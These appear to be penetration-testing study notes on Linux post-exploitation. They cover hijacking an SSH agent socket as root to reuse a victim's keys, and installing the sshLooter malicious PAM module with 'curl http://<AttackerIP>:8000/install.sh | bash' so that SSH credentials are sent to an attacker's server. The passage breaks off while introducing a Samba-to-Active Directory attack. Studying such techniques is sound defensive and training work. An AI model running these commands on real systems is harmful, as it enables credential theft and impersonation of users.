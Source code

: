 An *Unix domain socket* is a type of socket used for interprocess communication (IPC) within a single Unix-like system. Unlike network sockets, which allow communication between processes on different machines over a network, Unix domain sockets enable communication between processes on a single machine through the file system.

The *sshd* daemon is the service responsible for managing SSH connections in a Unix-like system. It accepts incoming connections, authenticates users, and manages SSH sessions.

If we are root on the compromised system, we can compromise the SSH agent, and retrieve the authentication keys and hijack the connection.

The reason this is possible is that the SSH agent creates a Unix domain socket, and then listens for connections from the `sshd` daemon to this socket.
The protection of the socket relies on simple unix permissions, which ultimately means that any authentication keys that are used with that socket can be retrieved by any user who can connect to the socket itself (i.e. root).

`ps aux | grep sshd`: to get the `sshd` PID.
`grep SSH_AUTH_SOCK /proc/<SSHPID>/environ`: to determine the `SSH_AUTH_SOCK` environment variable used for the `sshd` PID. This environment variable contains the path of the SSH authentication socket used for connections.
`SSH_AUTH_SOCK=<FoundValue> ssh-add -l`: to hijack the connection. This command manually sets the `SSH_AUTH_SOCK` environment variable to the found value and then executes `ssh-add -l` which lists the SSH keys currently managed by the SSH agent.
`ssh <VictimUser>@<TargetIP>`: to create a new SSH connection impersonating the victim.

(18/40) *Stealing SSH credentials*.
Suppose we compromised a machine with root permissions.
Now, we want to collect as many SSH credentials as possible through a malicious PAM module using the [*sshLooter* tool](https://github.com/mthbernardes/sshLooter).

A *PAM module* (Pluggable Authentication Module) is a software component used in Unix-like systems for managing user authentication. These modules provide a standardized interface that allows customization and configuration of the authentication process, enabling system administrators to implement specific security policies and integrate new forms of authentication without directly modifying application source code.

To do so, we need as pre-requisite a web server that is under our control.
- Attacker system.
`git clone https://github.com/mthbernardes/sshLooter`, `cd sshLooter`.
`python -m SimpleHTTPServer`: the deault port used is 8000.
- Target system.
`curl http://<AttackerIP>:8000/install.sh | bash`.

In this way, every SSH connection attempt, will be forwarded to the server under our control, accompanied by the credentials used.

(22/40) *Samba secrets to domain admin*.
Assume we have a Samba server having a trust relationship with an Active Directory infrastucture. This means that the Samba server is configured to allow users to access shared resources using their Active Directory domain credentials. In addition, the Samba server is authorized to access resources within that Active Directory (AD).
This type of configuration is common in environments where both Windows-based and Linux-based systems coexist.

*Active Directory* (AD) is a centralized directory service developed by Microsoft, for managing users, groups, and network resources within an organization. It provides authentication, authorization, and resource management capabilities, allowing network administrators to control access to user accounts and network resources. It is widely used in enterprise organizations.
